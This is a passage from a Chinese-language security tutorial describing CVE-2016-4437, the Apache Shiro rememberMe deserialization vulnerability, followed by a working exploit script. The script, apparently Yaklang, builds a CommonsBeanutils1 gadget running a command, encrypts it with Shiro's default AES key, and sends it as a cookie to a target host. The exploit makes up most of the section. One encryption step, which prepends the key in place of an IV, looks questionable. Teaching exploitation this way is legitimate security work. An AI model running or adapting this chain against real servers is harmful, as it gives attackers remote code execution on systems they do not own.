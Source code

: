 ## 8.6.5 测试案例：*CVE*-*2016-4437 Shiro 反序列化漏洞*

### *CVE*-*2016-4437 Shiro 反序列化漏洞*

Apache Shiro在处理用户会话时使用了Java的序列化机制。用户的会话信息被序列化后存储在cookie中，这个cookie通常叫做`rememberMe`。当用户下次访问应用时，应用会解析这个cookie，反序列化会话信息，以恢复用户的会话状态。漏洞产生的原因是Shiro在反序列化`rememberMe` cookie时没有充分检查输入数据的有效性。攻击者可以通过发送恶意的序列化对象来利用这个漏洞。如果应用程序的类路径中存在可以被触发恶意行为的类，攻击者可以执行任意代码。

### 编写利用脚本

先生成一个命令执行的payload：

```Go
version = 52
command = "whoami"
className = "guAVnGeu"
log.setLevel("info")
gadgetObj = yso.GetCommonsBeanutils1JavaObject(
  yso.useProcessBuilderExecEvilClass(command),
  yso.obfuscationClassConstantPool(),
  yso.evilClassName(className),
  yso.majorVersion(version)
)~
gadgetBytes = yso.ToBytes(gadgetObj)~
```

Shiro的Cookie默认使用默认key的cbc加密，所以需要再对payload加密，得到remberMe：

```Go
base64Key = "kPH+bIxk5D2deZiIxcaaaA==" // base64编码的key
key,_ = codec.DecodeBase64(base64Key) // 生成key
payload = codec.PKCS5Padding(gadgetBytes, 16) // 加密payload
encodePayload = codec.AESCBCEncrypt(key, payload, nil)~
rememberMe = codec.EncodeBase64(append(key, encodePayload...))
```

最后将payload发送至目标：

```Go
target = "127.0.0.1:8080"
rsp,req,_ = poc.HTTP(
  `GET /login HTTP/1.1
Host: {{params(target)}}
Cookie: rememberMe={{params(payload)}}
`,
  poc.params({
    "payload":rememberMe,
    "target":target,
  })
) // 发送payload
str.SplitHTTPHeadersAndBodyFromPacket(rsp)
log.info("发送Payload成功")
log.info("响应包: ",string(rsp))
```
